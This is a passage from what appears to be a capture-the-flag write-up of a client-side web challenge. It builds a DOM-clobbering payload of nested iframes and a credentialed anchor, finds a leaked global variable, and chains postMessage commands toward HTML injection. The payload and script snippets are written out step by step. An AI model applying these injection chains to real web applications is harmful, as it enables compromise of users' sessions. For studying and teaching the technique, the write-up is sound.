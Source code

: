 Our payload - which is the code send to the htmledit.php - should now look something like this:
```html
<iframe
  name="store"
  srcdoc="<iframe srcdoc='<a id=admin href=ftp:test:test@test>test</a>' name=users>"
></iframe
><img id="DEV" /><iframe src="console.php"></iframe>
```
This is using an iframe named `store`, having a nested iframe named `users` and a nested `a` element named `admin`. This bypasses the `top.store.users.admin` reference. Again in (this article)[https://portswigger.net/research/dom-clobbering-strikes-back] we also find that anchor tags can have `username` and `password` properties using basic auth in their `href` attribute.

If we run this, we see the name of the window - `Console` - printed in the DOM.

At this stage we have some kind of content injection. However, we currently do not control, which content is injected. 

### Getting HTML injection

To get HTML injection, we should try to get a list of variables, which can possibly get printed out to the DOM. At some stage, when looking at the RegExp `/^[s-zA-Z-+0-9]+$/` from the `reassign` method, I wanted to see, which variables on the window object comply with this regex. I did this with the following script:

```js
const rx=/^[s-zA-Z-+0-9]+$/;
const properties=Object.getOwnPropertyNames(window)
for(let property of properties){rx.test(property)&&console.log(property)}
```

This should print out the variables on the `window` object, I can use in the `reassign` method. Maybe this also gives some information about the variable, we should log using `logv`? And yes, the output was successful and we got a variable `x`:
```
CSS 
U2F 
URL 
JSON 
x 
```

Where is `x` coming from? `x` is the reference from the for-loop inside of `checkCredentials`. This `x` is not prepended with `var`,`let` or `const` and is thus globally available on the `window` object. We now also know, that `x` is pointing to the anchor element inside our payload. And this is nice, because we have quite a good control over this element. However, if we try to log `x` using `logv` we only get `{}` as an output. This is because of the `JSON.stringify` inside the `parse` method on variables, which are not string types. 

But luckily we can get a string from the `x` variable quite easily. We know, that the `toString` method on anchor elements will return the href attribute (https://developer.mozilla.org/en-US/docs/Web/API/HTMLAnchorElement/toString). And by appending some integer to `x` we can trigger the `toString` method.

Putting this in our HTML will result in the following:
```js
sendToAllFrames(win, {credentials:{username:"test",password:"test"},cmd:"reassign",message:{a:"z",b:"x"}});
sendToAllFrames(win, {credentials:{username:"test",password:"test"},cmd:"reassign",message:{a:"z+",b:"0"}});
sendToAllFrames(win, {credentials:{username:"test",password:"test"},cmd:"logv",message:"z"});
```
